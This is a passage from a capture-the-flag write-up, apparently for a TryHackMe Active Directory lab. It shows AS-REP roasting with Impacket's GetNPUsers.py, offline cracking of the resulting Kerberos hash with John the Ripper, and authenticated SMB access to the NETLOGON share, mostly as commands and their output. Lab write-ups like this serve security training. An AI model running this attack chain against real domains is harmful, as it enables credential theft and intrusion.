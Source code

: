 Next, we can use `GetNPUsers.py` in `Impacket` to find users without Kerberos pre-authentication:

But before we do that, we'll add the Domain Controller(DC) IP address to `/etc/hosts`.

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet_Roasted]
└─# cat /etc/hosts      
127.0.0.1	localhost

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters  
10.10.24.127 vulnnet-rst.local
```

> DC's domain can be found in the `rustscan` result.

```
┌──(impacket-env)─(root💀nam)-[~/ctf/thm/ctf/VulnNet_Roasted]
└─# python3 /opt/impacket/examples/GetNPUsers.py vulnnet-rst.local/ -no-pass -usersfile splited_user.txt
[...]
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:[Redacted]
[...]
```

We've found `t-skid`’s hash. Let’s crack it with `John The Ripper`!:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet_Roasted]
└─# nano t-skid_hash.txt
                                                                                                                               
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet_Roasted]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt t-skid_hash.txt 
[...]
[Redacted]        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)     
[...]
``` 

Password cracked!

`t-skid:[Redacted]`

### SMB Authenticated Access:

Armed with this information, we're now able to connect to the `NETLOGON` Samba network share: 

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet_Roasted]
└─# smbclient -U vulnnet-rst.local/t-skid //$IP/NETLOGON
Password for [VULNNET-RST.LOCAL\t-skid]:
[...]
smb: \> dir
[...]
  ResetPassword.vbs                   A     2821  Tue Mar 16 19:18:14 2021
```
